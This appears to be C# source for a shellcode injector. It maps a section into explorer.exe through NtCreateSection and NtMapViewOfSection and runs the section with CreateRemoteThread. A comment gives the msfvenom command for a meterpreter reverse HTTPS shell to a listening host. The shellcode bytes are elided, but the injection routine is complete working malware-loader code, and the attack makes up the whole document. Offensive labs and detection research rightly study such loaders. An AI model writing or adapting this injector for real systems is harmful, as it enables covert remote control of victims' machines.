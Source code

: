 ```csharp
		[DllImport("ntdll.dll", SetLastError = true)]
		static extern uint NtUnmapViewOfSection(IntPtr hProc, IntPtr baseAddr);

		[DllImport("ntdll.dll", ExactSpelling = true, SetLastError = false)]
		static extern int NtClose(IntPtr hObject);

		static void Main(string[] args)
        {
			// msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.179 LPORT=443 EXITFUNC=thread -f csharp
            byte[] buf = new byte[722] {0x06, 0xb2, 0x79, 0x1e, 0x0a, 0x12, 0x36, 0xfa, ..., 0x2f};

			uint buffer_size = (uint)buf.Length;

			// Create the section handle.
			IntPtr ptr_section_handle = IntPtr.Zero;
			UInt32 create_section_status = NtCreateSection(ref ptr_section_handle, 0xe, IntPtr.Zero, ref buffer_size, 0x40, 0x08000000, IntPtr.Zero);
			if (create_section_status != 0 || ptr_section_handle == IntPtr.Zero)
				return;

			// Map a view of a section into the virtual address space of the current process.
			ulong section_offset = 0;
			IntPtr ptr_local_section_addr = IntPtr.Zero;
			UInt32 local_map_view_status = NtMapViewOfSection(ptr_section_handle, GetCurrentProcess(), ref ptr_local_section_addr, (UIntPtr)(long)IntPtr.Zero, (UIntPtr)(long)IntPtr.Zero, out section_offset, out buffer_size, 0x2, 0, 0x04);
			if (local_map_view_status != 0 || ptr_local_section_addr == IntPtr.Zero)
				return;

			// Copy the shellcode into the mapped section.
			Marshal.Copy(buf, 0, ptr_local_section_addr, buf.Length);

			// Map a view of the section in the virtual address space of the targeted process.
			Process[] expProc = Process.GetProcessesByName("explorer");
			int pid = expProc[0].Id;
			IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
			IntPtr ptr_remote_section_addr = IntPtr.Zero;
			uint remote_map_view_status = NtMapViewOfSection(ptr_section_handle, hProcess, ref ptr_remote_section_addr, (UIntPtr)(long)IntPtr.Zero, (UIntPtr)(long)IntPtr.Zero, out section_offset, out buffer_size, 0x2, 0, 0x20);
			if (remote_map_view_status != 0 || ptr_remote_section_addr == IntPtr.Zero)
				return;

			// Unmap the view of the section from the current process & close the handle.
			NtUnmapViewOfSection(GetCurrentProcess(), ptr_local_section_addr);
			NtClose(ptr_section_handle);
			CreateRemoteThread(hProcess, IntPtr.Zero, 0, ptr_remote_section_addr, IntPtr.Zero, 0, IntPtr.Zero);
		}
    }
}
```
